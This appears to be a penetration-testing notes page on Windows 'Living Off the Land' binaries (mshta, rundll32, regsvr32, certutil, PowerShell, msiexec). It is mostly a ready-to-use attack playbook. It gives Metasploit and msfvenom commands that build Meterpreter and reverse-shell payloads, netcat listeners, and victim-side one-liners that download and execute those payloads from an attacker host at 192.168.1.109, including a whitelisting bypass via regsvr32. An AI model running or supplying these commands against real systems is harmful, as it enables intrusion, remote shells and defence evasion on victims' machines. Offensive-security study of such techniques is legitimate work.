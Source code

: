 # ⭕ LOL Binaries

## <mark style="color:red;">General Concept</mark>

Living Off the Land (LOL) binaries are the native Microsoft binary applications that are preinstalled on windows systems and are almost always available for us to use. these can be as simple as the echo command or be used for more advanced stuff like downloading and executing files, converting exe to cert or other interesting things that an attacker can leverage to bypass defense mechanisms.

Generally speaking, when we want a bin/reverse shell we go looking for the specific binaries that can download and execute our payloads. [LOLBAS ](https://lolbas-project.github.io)is a great collection of all known LOL binaries and we can search the collection for binaries with specific capabilities that we want by using a slash '/' and the name of the capability in the search bar for example /execute will show us all binaries that can execute code or scripts.

### <mark style="color:orange;">For Download</mark>

{% embed url="https://lolbas-project.github.io/#/download" %}

### <mark style="color:orange;">For Execute</mark>

{% embed url="https://lolbas-project.github.io/#/execute" %}

## <mark style="color:red;">Example Tools</mark>

<mark style="color:green;">**Mshta.exe :**</mark> Launch HTA attack via HTA Web Server of Metasploit

<mark style="color:green;">**Rundll32.exe :**</mark> Launch Rundll32 Attack via SMB Delivery of Metasploit

<mark style="color:green;">**Regsvr32.exe :**</mark> Launch Regsvr32 via Script Web Delivery of Metasploit

<mark style="color:green;">**Certutil.exe :**</mark> Launch MSbuild Attack via Msfvenom C# shellcode

<mark style="color:green;">**Powershell.exe :**</mark>

* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

<mark style="color:green;">**Msiexec.exe :**</mark> Launch msiexec attack via msfvenom

## <mark style="color:red;">Mshta.exe</mark>

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running **HTA**( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

## <mark style="color:red;">Rundll32.exe</mark>

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

**Launch Rundll32 Attack via SMB Delivery of Metasploit**

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

```
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

## <mark style="color:red;">Regsvr32.exe</mark>

Regsvr32 is a command-line utility to register and unregister OLE controls, such as **DLLs** and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

_Syntax:_

```
Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>
```

RegSvr32.exe has the following command-line options:

* /u – Unregister server
* /i – Call DllInstall passing it an optional \[cmdline]; when it is used with
* /u, it calls dll to uninstall
* /n – do not call DllRegisterServer; this option must be used with
* /s – Silent; display no message boxes

**Launch Regsvr32 via Script Web Delivery of Metasploit**



This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

```
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

## <mark style="color:red;">Certutil.exe</mark>

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to execute our malicious **exe file** in the target machine to get a meterpreter session.

**Launch certutil Attack via Msfvenom**

Generate a malicious executable (.exe) file with msfvenom and **start multi/handler** to get the reverse shell of the victim’s machine.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

## <mark style="color:red;">**Batch File**</mark>

PowerShell allows the client to execute **bat file**_._

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```

```
nc -nvlp 4444
```

Then execute the following command on the remote side to get netcat session.

```
// Some powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

## <mark style="color:red;">**Cscript**</mark>

PowerShell allows the client to execute **cscript.exe** to run **wsf, js** and **vbscript.**

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

## <mark style="color:red;">Msiexec.exe</mark>

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by **MSI packages** for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
msiexec /q /i http://192.168.1.109/1.msi
```
